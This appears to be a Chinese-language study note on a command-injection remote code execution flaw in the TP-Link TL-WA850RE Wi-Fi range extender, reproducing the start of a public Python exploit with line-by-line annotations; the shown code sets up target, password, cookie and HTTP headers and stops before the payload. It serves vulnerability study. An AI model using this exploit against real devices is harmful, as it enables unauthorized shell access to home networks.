 # TP-Link TL-WA850RE - Remote Command Execution

简析：该路由器为![1411571179-2008228670_m.jpg](https://github.com/zhongshendoushuizhao/project/blob/master/vul_learn/picture/1411571179-2008228670_m.jpg?raw=true) 

主要功能是做无线wifi的中继器，产品测评地址如下：https://www.xfastest.com/thread-143356-1-1.html

，操作管理 和常规路由器相似 可已通过webapp 访问，此poc的攻击主要基于命令注入来获取shell，在去分析漏洞原理方面先去学习搭建 [firmware  analysis  toolkit](https://github.com/attify/firmware-analysis-toolkit) ，POC相对比较简单，先做代码层必要分析，后面提供其他分析



```python
#!/usr/bin/env python

# Exploit Title: TP-Link Technologies TL-WA850RE Wi-Fi Range Extender - Command Execution
# Date: 19/06/2018
# Exploit Author: yoresongo - Advisability S.A.S Colombia (www.advisability.co)
# Vendor Homepage: https://www.tp-link.com/
# Firmware Link: https://www.tp-link.com/en/download/TL-WA850RE.html   固件地址
# Tested on: Firmware Version TL-WA850RE_V5_180228
# Contact: yoresongo [at] advisability.co

import argparse #命令行处理
import requests #HTTP 请求 为应用层漏洞
import hashlib  #提供hash计算库
import telnetlib #内置支持telnet远程模块

parser = argparse.ArgumentParser(
    description="Exploits TP-LINK WA850RE Command injection"
)

#参数为  host  password  -C cookit(have default)

parser.add_argument("host", help="Host to attack.", type=str)
parser.add_argument("password", help="Extender's Password", type=str)
parser.add_argument(
    "-C", "--cookie", help="Cookie id value.", type=str, default="1301a8c000c4c505"
)
args = parser.parse_args()

HOST = args.host
PASSWORD = args.password
COOKIE = args.cookie

#拼接 cookites  数据为： Cookie: COOKIE=1301a8c000c4c505; gsScrollPos-8016=0
cookies = {"gsScrollPos-8016": "0", "COOKIE": COOKIE}


#拼接HTTPheader


headers = {
    "Origin": "http://%s/" % HOST,  #Origin标头标识导致用户代理发起HTTP请求的安全上下文.主要是用来说明最初请求是从哪里发起的,只用于Post请求
    "Accept-Encoding": "gzip, deflate", #声明浏览器支持的编码类型
    "Accept-Language": "en-US,en;q=0.9,es;q=0.8", #声明理解的自然语言
    "User-Agent": "Mozilla/5.0", #UA 用户代理
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",  #内容类型
    "Accept": "application/json, text/javascript, */*; q=0.01", #请求头用来告知客户端可以处理的内容类型
    "Referer": "http://%s/" % HOST, #referer字段表示从哪里链接到当前网页
    "X-Requested-With": "XMLHttpRequest", #可以用来判断客户端的请求是Ajax请求还是其他请求。
    "Connection": "keep-alive",  #当client和server通信时对于长链接如何进行处理
    "DNT": "1",   #要求服务器程序不要跟踪记录用户信息
}

```